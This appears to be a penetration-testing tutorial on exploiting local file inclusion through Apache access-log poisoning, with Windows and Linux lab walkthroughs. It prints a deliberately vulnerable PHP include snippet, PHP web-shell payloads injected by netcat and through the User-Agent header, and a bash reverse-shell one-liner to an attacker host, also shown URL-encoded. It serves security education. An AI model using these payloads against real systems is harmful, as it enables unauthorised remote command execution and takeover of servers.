






# Local File Inclusion

Local file inclusion vulnerabilities can be more difficult to exploit as they do not allow the attacker to write arbitrary code to a file and then simply execute it. Instead, the attacker must be more clever about how to get code into an execution context.

## Contaminating Log Files

One way we can try to inject code onto the server is through log file poisoning. Most application servers will log all URLs that are requested.

This can be leveraged to an attacker's advantage by submitting a request that includes PHP code. Once the request is logged, they can use the log file in their LFI payload.

### Example (Windows)

Consider a webpage with the following PHP code snippet included in its `menu.php` page:

```php
<?php
    $file = $_GET["file"];
    include $file; ?>
```

Clearly this parameter can be manipulated to allow for LFI. Unfortunately, in this example the attacker cannot upload files to the server (thus eliminating the ability to upload a custom PHP executable and reach it via the LFI). Instead the attacker will attempt an HTTP request (containing a PHP payload) to the server in the hopes the server writes the payload the the log and the LFI can be leveraged in that way.

<table><thead><tr><th width="207.33333333333331">Machine</th><th>IP Address</th></tr></thead><tbody><tr><td>Victim (Web Server)</td><td><code>10.11.0.22</code></td></tr><tr><td>Attacker</td><td><code>10.11.0.4</code></td></tr></tbody></table>

#### &#x20;Attacker Machine

From the attacker's machine they will initiate a connection with the vulnerable server via Netcat. After the connection is made the attacker will send an HTTP request where the "request" is actually a PHP payload.

```bash
kali@kali:~$ nc -nv 10.11.0.22 80
(UNKNOWN) [10.11.0.22] 80 (http) open
<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>

HTTP/1.1 400 Bad Request
```

First, notice that the entire payload is written in PHP: it begins with `<?php` and ends with `?>`. The bulk of the PHP payload is a simple `echo` command that will print output to the page. This output is first wrapped in `pre` HTML tags, which preserve any line breaks or formatting in the results of the function call. Next is the function call itself, `shell_exec`, which will execute an OS command. Finally, the OS command is retrieved from the `cmd` parameter of the GET request with `_GET[‘cmd’]`. This one line of PHP will let the attacker specify an OS command via the query string and output the results in the browser.

While the request obviously failed as an invalid request, the server logged it as a requested URL.

#### Victim Machine

While the victim's machine will generally be more opaque to the attacker, for example purposes assume the logs can be viewed.

The "bad request" was logged in the Apache access files as shown below in the exceprt from the victims `C:\xampp\apache\logs\access.log` file:


```
10.11.0.4 - - [30/Nov/2019:13:55:12 -0500] "GET /css/bootstrap.min.css HTTP/1.1" 200 155758 "http://10.11.0.22/menu.php?file=\\Windows\\System32\\drivers\\etc\\hosts" "Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0"
10.11.0.4 - - [30/Nov/2019:13:58:07 -0500] "GET /tacotruck.php HTTP/1.1" 200 1189 "http://10.11.0.22/menu.php?file=/" "Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0"
10.11.0.4 - - [30/Nov/2019:14:01:41 -0500] ""<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>\n" 400 981 "-" "-"
```


With the payload successfully included in a file on the server the attacker can now move to exploitation.

#### Attacker Machine

The attacker can then query the menu page and include the log file as the `file` parameter and a `cmd` parameter of their choice:

All the attacker has to do is navigate to the URL `http://10.11.0.22/menu.php?file=c:\xampp\apache\logs\access.log&cmd=ipconfig`

The browser will render the page and the bottom of the page should include the output of the `ipconfig` command.

<figure><figcaption><p>Successfully executed LFI with command output</p></figcaption></figure>

Because of the PHP `include` statement and the attacker's ability to specify a file via LFI, the contents of the contaminated `access.log` file were executed by the web page.

The PHP engine runs the `<?php echo shell_exec($_GET[‘cmd’]);?>` portion of the log file’s text (our payload) with the `cmd` variable’s value of `"ipconfig"`, essentially running `ipconfig` on the target and displaying the output. The additional lines in the log file are simply displayed because they do not contain valid PHP code.

### Example (Linux)

This attack will follow a similar path as the Windows example above. The goal is to gain RCE by poisoning the Apache access log file located at `/var/log/apache2/access.log`.&#x20;

For this example, assume the server is vulnerable to a directory traversal attack via the `page=` parameter at `http://mountaindesserts.com/meteor/index.php?page=`.

With this in mind it is possible to examine the contents of the `access.log` file via the relative path `../../../../../../../../../var/log/apache2/access.log`:

```shell-session
kali@kali:~$ curl http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../var/log/apache2/access.log
...
192.168.63.1 - - [12/Apr/2022:10:34:55 +0000] "GET /meteor/ HTTP/1.1" 200 2361 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.75 Safari/537.36"
192.168.50.1 - - [12/Apr/2022:10:34:55 +0000] "GET /meteor/index.php?page=admin.php HTTP/1.1" 200 2218 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0"
192.168.63.1 - - [12/Apr/2022:10:34:55 +0000] "GET /meteor/css/bootstrap-theme.min.css HTTP/1.1" 200 2688 "http://192.168.63.131/meteor/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.75 Safari/537.36"
192.168.63.1 - - [12/Apr/2022:10:34:55 +0000] "GET /meteor/css/fontAwesome.css HTTP/1.1" 200 7826 "http://192.168.63.131/meteor/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.75 Safari/537.36"
192.168.63.1 - - [12/Apr/2022:10:34:55 +0000] "GET /meteor/css/hero-slider.css HTTP/1.1" 200 3340 "http://192.168.63.131/meteor/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.75 Safari/537.36"
192.168.63.1 - - [12/Apr/2022:10:34:55 +0000] "GET /meteor/css/tooplate-style.css HTTP/1.1" 200 3867 "http://192.168.63.131/meteor/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.75 Safari/537.36"
192.168.63.1 - - [12/Apr/2022:10:34:55 +0000] "GET /meteor/js/vendor/modernizr-2.8.3-respond-1.4.2.min.js HTTP/1.1" 200 8531 "http://192.168.63.131/meteor/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.75 Safari/537.36"
192.168.63.1 - - [12/Apr/2022:10:34:55 +0000] "GET /meteor/css/bootstrap.min.css HTTP/1.1" 200 19056 "http://192.168.63.131/meteor/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.75 Safari/537.36"
192.168.63.1 - - [12/Apr/2022:10:34:55 +0000] "GET /meteor/js/vendor/bootstrap.min.js HTTP/1.1" 200 9792 "http://192.168.63.131/meteor/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.75 Safari/537.36"
192.168.63.1 - - [12/Apr/2022:10:34:55 +0000] "GET /meteor/js/main.js HTTP/1.1" 200 1013 "http://192.168.63.131/meteor/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.75 Safari/537.36"
...
```

It appears that the User-Agent header is collected in this installation of Apache. Conveniently this will allow the same type of LFI as above. In this instance the inserted PHP code will be:

```php
<?php echo system($_GET['cmd']); ?>
```

This will be included in the user agent header:

```
Mozilla/5.0 <?php echo system($_GET['cmd']); ?>
```

This can be modified via BurpSuite's repeater:

<figure><figcaption><p>BurpSuite Repeater with modified User-Agent</p></figcaption></figure>

It is now possible to pass commands to the `access.log` file via the Repeater:

<figure><figcaption><p>Submitting a command to the access.log file</p></figcaption></figure>

Perfect, now for another command, `ls -la`:

<figure><figcaption><p>Command resulting in a 400 HTTP response</p></figcaption></figure>

Unfortunately this caused an error. This is likely because of the space between `ls` and `-la`. Perhaps URL encoding the command to `ls%20-la` would help:

<figure><figcaption><p>Success with the URL encoded command</p></figcaption></figure>

As shown above the URL encoding worked. Now that the method for submitting commands has been determined, it is time to attempt a full compromise. This will be achieved with a reverse shell. The snippet for the shell will be the following Bash one-liner:

```bash
bash -i >& /dev/tcp/<ATTACKING-IP>/<PORT> 0>&1
```

This will launch an interactive shell session and tie its input/output to the attacker's machine. However before proceeding it is worth noting that since the command will be executed through  the PHP `system` function, the command may be executed via the _Bourne Shell_, also known as `sh`, rather than Bash. The reverse shell one-liner above contains syntax that is not supported by the Bourne Shell. To ensure the reverse shell is executed via Bash, the reverse shell command must be modified. This can be done by providing the reverse shell one-liner as argument to `bash -c`, which executes a command with Bash:

<pre class="language-bash"><code class="lang-bash"><strong>bash -c "bash -i >&#x26; /dev/tcp/&#x3C;ATTACKING-IP>/&#x3C;PORT> 0>&#x26;1"
</strong></code></pre>

This of course needs to be URL encoded as discovered above (IP for my machine in example is subbed in):

```bash
bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.45.201%2F4444%200%3E%261%22
```

This is then inserted into the HTTP request via the Repeater:

<figure><figcaption><p>Reverse shell command inserted into Repeater</p></figcaption></figure>

This results in a reverse shell and the initial foothold compromise for the machine.

### Technologies

Besides PHP which was leveraged in the above examples, it is possible to find and leverage LFI and RFI vulnerabilities in other frameworks or server-side scripting languages including:

* Perl
  * [exec function](https://perldoc.perl.org/functions/exec)
* Active Server Pages Extended (`.aspx`)
  * [via WScript.Shell](https://bytes.com/topic/asp-classic/answers/52172-how-execute-command-line-asp)
* Java Server Pages

Exploiting these kinds of vulnerabilities is very similar across these languages.
